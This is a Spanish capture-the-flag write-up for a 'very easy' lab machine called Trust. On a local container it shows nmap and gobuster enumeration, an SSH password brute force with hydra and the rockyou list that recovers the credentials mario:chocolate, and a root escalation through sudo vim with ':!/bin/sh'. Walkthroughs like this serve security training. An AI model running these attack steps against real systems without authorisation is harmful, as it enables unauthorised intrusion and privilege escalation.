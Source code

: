 # Máquina Trust
- Dificultad: muy fácil

## Escaneo con nmap
<p>Realizamos un escaneo de puertos, servicios y versiones con el siguiente comando.</p>

```
nmap -sCV -sS -n -Pn -p- 172.17.0.2

```

```
Nmap scan report for 172.17.0.2
Host is up (0.000020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```
<p>El puerto 22 y el 80 estan abiertos con los servicios SSH y Apache, primero revisamos el servicio web y utilizamos gobuster para buscar posibles directorios.</p>

## Gobuster

```
 gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,py

```

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,py
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1102800 / 1102805 (100.00%)
===============================================================
Finished
===============================================================



```
<p>Encontramos dos archivos, en index.html no encontré nada asi que revisamos el secret.php.</p>

![captura-login](https://github.com/JavierKJ4/Dockerlabs/blob/main/recursos/Screenshot_2024-05-13_06-40-18.png)


<p>Probamos fuerza bruta con hydra usando como usuario mario.</p>


## Hydra

```
hydra -l mario  -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 

```
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-13 06:42:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found

```
<p>Usamos las credenciales de mario:chocolate con ssh.</p>

## SSH

```
ssh 172.17.0.2 -l mario

```
<p>Nos pide la contraceña, la escribimos y estamos dentro.</p>

```
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:z6uc1wEgwh6GGiDrEIM8ABQT1LGC4CfYAYnV4GXRUVE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
mario@172.17.0.2's password: 
Linux b32b2acaa846 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21
mario@b32b2acaa846:~$ 


```

## Escalando privilegios

<p>Usamos el siguiente comando para ver que se puede ejecutar como sudo.</p>

```
sudo -l

```

```
Matching Defaults entries for mario on b32b2acaa846:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on b32b2acaa846:
    (ALL) /usr/bin/vim

```

<p>Aparece el binario /usr/bin/vim asi que ejecutamos el sigiente comando y estamos como root.</p>

```
sudo vim -c ':!/bin/sh'

```

```
# whoami
root
# 
```
